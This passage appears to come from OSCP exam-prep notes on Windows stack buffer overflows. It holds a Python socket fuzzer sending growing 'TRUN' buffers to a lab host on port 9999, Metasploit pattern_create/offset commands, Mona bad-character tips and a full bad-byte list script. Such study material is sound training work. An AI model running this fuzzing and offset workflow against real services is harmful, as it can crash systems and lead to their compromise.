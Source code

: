 size = 100 

while(size &#x3C; 2500):
    try:
        print "\nSending evil buffer with %s bytes" % size
        buffer = "TRUN ."
        buffer += "A" * size

        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

        s.connect(("192.168.0.17", 9999))
        s.send(buffer)

        s.close()

        size +=100
        time.sleep(3)

    except:
        print "\nCould not connect!"
        sys.exit()
</code></pre>
{% endtab %}

{% tab title="OSCP way" %}
{% hint style="warning" %}
BE VERY CAREFUL IF THE BADCHARS LIST FROM MONA HAS CONSECUTIVE BADCHARS, IT IS MOST LIKELY TO BE JUST THE FIRST ONE

With badchars start with all and first remove \x00 from the list, if we remove several at once and not one by one, it might fail.
{% endhint %}

{% hint style="info" %}
Default location for bytearray.txt
{% endhint %}

```
C:\Users\$user\AppData\Local\VirtualStore\Program Files\Immunity Inc\Immunity Debugger
```

```sh
msf-pattern_create -l 800
msf-pattern_offset -l $LENGTH -q $EIP_BYTES # -q w/o 0x
```

Python script to write all badchars into a file (USE THIS FORMAT TO TEST BADCHARS ON A SCRIPT IF THE OTHER FAILS):

```python
#!/usr/bin/python3

badchars =  b""
badchars += b"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f"
badchars += b"\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
badchars += b"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f"
badchars += b"\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
badchars += b"\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f"
badchars += b"\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
badchars += b"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f"
badchars += b"\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
badchars += b"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f"
badchars += b"\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
badchars += b"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf"
badchars += b"\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
badchars += b"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf"
badchars += b"\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
badchars += b"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef"
badchars += b"\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

```
